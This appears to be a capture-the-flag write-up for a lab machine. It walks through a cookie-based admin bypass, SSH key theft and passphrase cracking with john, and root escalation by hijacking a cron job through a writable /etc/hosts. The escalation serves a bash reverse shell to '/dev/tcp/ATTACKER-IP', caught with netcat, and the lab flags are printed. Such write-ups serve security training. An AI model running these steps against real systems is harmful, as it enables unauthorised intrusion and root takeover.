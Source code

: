 # user.txt
nmap found a webserver
at the `/admin` page the js was vulnerable
it checks if the variable `SessionToken` is set to something specific
set it to None with `Cookies.set("SessionToken", "")`

got a private ssh key --> saved it to `ssh_james.key`

prepared it for john with `ssh2john ssh_james.key > ssh_james.hash`

`chmod 600 ssh_james.key`

cracked the password with `john --wordlist=/usr/share/wordlists/rockyout.txt ssh_james.hash`

got the credentials `james13`  
ssh into the machine with `ssh -i ssh_james.key james@url`

<details>
<summary>flag</summary>
user.txt -- thm{65c1aaf000506e56996822c6281e6bf7}
</details>


# root.txt
got linpeas on the target through scp `scp -i ssh.key /opt/linpeas.sh james@IP:/tmp/linepeas.sh`

ran linpeas

found a cronjob (/etc/crontab) that fetches `overpass.thm/downloads/src/buildscript.sh` every minute and pipes it to bash `as root`  
`/etc/hosts` is writeable for all users

changed the overpass.thm ip in the `/etc/hosts` file to my ip

created the above file structure and placed a bash reverse shell script in the buildscript.sh -- `/bin/bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1`  
started a http file server with python on port 80 `python -m http-server 80`  
started netcat on the port from the reverse shell `nc -nlvp PORT`

waited for the cronjob to fetch the infested file from my file-server and got a root shell through netcat

<details>
<summary>flag</summary>
root.txt -- thm{7f336f8c359dbac18d54fdd64ea753bb}
</details>